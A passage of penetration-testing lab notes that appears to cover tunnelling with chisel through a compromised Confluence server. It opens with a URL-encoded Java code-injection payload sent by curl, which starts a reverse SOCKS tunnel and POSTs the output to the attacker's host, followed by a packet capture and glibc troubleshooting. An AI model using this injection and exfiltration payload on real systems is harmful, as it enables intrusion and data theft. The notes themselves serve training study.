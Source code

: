 ```bash
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/
```
- notice that we're sending the `POST` request *to our chisel server* (listening on port `8080`)
- `--data` this tells `curl` to read the file at `/tmp/output` and include it in the body of the `POST` request (as data)
### Check the output
We should receive the above `POST` request on our listening chisel server. We can check `tcpdump` for the request (assuming we kept the earlier `tcpdump` command running):
```bash
...
16:30:50.915895 IP (tos 0x0, ttl 61, id 47823, offset 0, flags [DF], proto TCP (6), length 410)
    192.168.50.63.50192 > 192.168.118.4.8080: Flags [P.], cksum 0x1535 (correct), seq 1:359, ack 1, win 502, options [nop,nop,TS val 391724691 ecr 3105669986], length 358: HTTP, length: 358
        POST / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: curl/7.68.0
        Accept: */*
        Content-Length: 204
        Content-Type: application/x-www-form-urlencoded

        /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
        0x0000:  4500 019a bacf 4000 3d06 f729 c0a8 db3f  E.....@.=..)...?
        0x0010:  c0a8 2dd4 c410 1f90 d15e 1b1b 2b88 002d  ..-......^..+..-
...
```
The data in the body of the `POST` request tells us that [**glibc**](https://www.gnu.org/software/libc/) (which the chisel client is trying to find) *is not installed on `CONFLUENCE01`*.
### Version Incompatibility
The above error is likely due to `CON01` running *an older [operating system](../../computers/concepts/operating-system.md) version* than our chisel binary is compiled for. We can check for the exact version of chisel  our binary uses with:
```bash
kali@kali:~$ chisel -h

  Usage: chisel [command] [--help]

  Version: 1.8.1-0kali2 (go1.20.7)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```
Based on some [issues](https://github.com/golang/go/issues/58550)on the Golang repo, we learn that Go binaries compiled with Go 1.2 tend to cause issues with `glibc` if the OS they're running on *does not have a compatible version of `glibc`*. We can try to fix this by using a chisel release *compiled with Go 1.19* (one version of Go below our current version).
